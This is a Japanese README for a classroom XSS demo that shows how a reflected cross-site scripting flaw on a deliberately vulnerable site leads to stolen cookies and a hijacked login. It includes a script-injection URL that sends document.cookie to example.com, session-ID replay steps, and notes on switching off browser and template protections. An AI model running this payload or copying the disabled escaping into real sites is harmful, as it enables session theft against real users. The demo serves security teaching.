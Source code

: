 # XSSの初歩的な例と実害

を説明するデモです．

## 状況

XSS (_クロス_ サイト スクリプティング) の性質上，localhostの他にも別サイトが必要でした．

<dl>
  <dt>http://脆弱サイト.com</dt>
  <dd>脆弱性を持ったサイト(以下，脆弱サイト)．ログイン機能がある．</dd>

  <dt>http://localhost:5000</dt>
  <dd>攻撃者の用意したサイト(以下，攻撃者サイト) ．</dd>

  <dt>被害者</dt>
  <dd>脆弱サイトのユーザ．攻撃者に脆弱サイトへログインされてしまう．</dd>
</dl>

## 脆弱サイトをいじってみる

```bash
$ google-chrome http://脆弱サイト.com
```

1. `/` において， `user: sampleuser`, `pass: samplepass` と入力してログイン
1. `/login` にて，「ようこそ，sampleuserさん!!」と表示されることを確認

_攻撃目的: `sampleuser/samplepass` を知らないのに，`sampleuser`としてログインする_

## 攻撃手順

### 攻撃者サイトを準備

```bash
$ cd 20131117-tokumaru-benkyokai/sample-sites/attacker-sites/ex00_WhatIsXSS
$ carton install  # 大体5分以上かかります・・・・
$ carton exec perl -Ilib script/ex00_whatisxss-server
$ google-chrome http://localhost:5000
```

### 怪しいリンクを踏ませて脆弱サイトのCookieを入手

1. 下記リンクは，攻撃者がTwitterなどにポストする(短縮URLなど使うとなおのこと引っ掛けやすい)
1. 被害者が下記リンクを踏む
1. 脆弱サイトにてXSS攻撃が成立する
1. 攻撃者サイトにリダイレクトされ，攻撃者サイトに脆弱サイトのCookieが表示される(表示されるということは，その文字列を攻撃者サーバに保存することも容易)

```bash
$ google-chrome --disable-xss-auditor "http://脆弱サイト.com/status?uid=%3Cscript%3Ewindow.location=%22http://example.com/?cookie=%22%2bdocument.cookie%3C/script%3E"
```

_注意: まともなブラウザなら，単純なXSS攻撃は検知してscript実行を中止する．`--disable-xss-auditor`によってchromeにわざとXSS攻撃に引っかかってもらう．_

### Cookie中のセッションIDを使って脆弱サイトにログイン

1. 攻撃者は先程手にしたセッションIDをコピー
1. 下記のように脆弱サイトにアクセスし，ログインが成立

```bash
$ google-chrome http://脆弱サイト.com/login?sid=[セッションID]
```


## 付録

### 攻撃者サイトの準備

```bash
$ cd 20131117-tokumaru-benkyokai/sample-sites/vulnerable-sites/ex00_WhatIsXSS
$ sqlite3 db/development.db < sql/sqlite.sql
$ carton install
$ carton exec perl -Ilib script/ex00_whatisxss-server --host=[IPアドレス] --port=[ポート番号]
```

### Amon2とGoogle Chromeを脆弱にするためにわざわざやったこと

最近のブラウザやらWebアプリフレームワークやらは脆弱性対策されてるんですね．
おい! 誰だPHPの話したの!! 関係ないだろ!!!!

<dl>
  <dt>ChromeのXSS検知&防止機構を無効にする</dt>
  <dd>起動オプションに --disable-xss-auditor をつけて，サーバからのレスポンスヘッダには<a href="/sample-sites/vulnerble-sites/ex00_WhatIsXSS/lib/Web.pm#L47">X-XSS-Protectionを0に指定</a></dd>

  <dt>XslateのHTMLエスケープを無効化</dt>
  <dd><a href="/sample-sites/vulnerable-sites/ex00_WhatIsXSS/tmpl/status.tx#L10">mark_raw 指定をする</a></dd>
</dl>

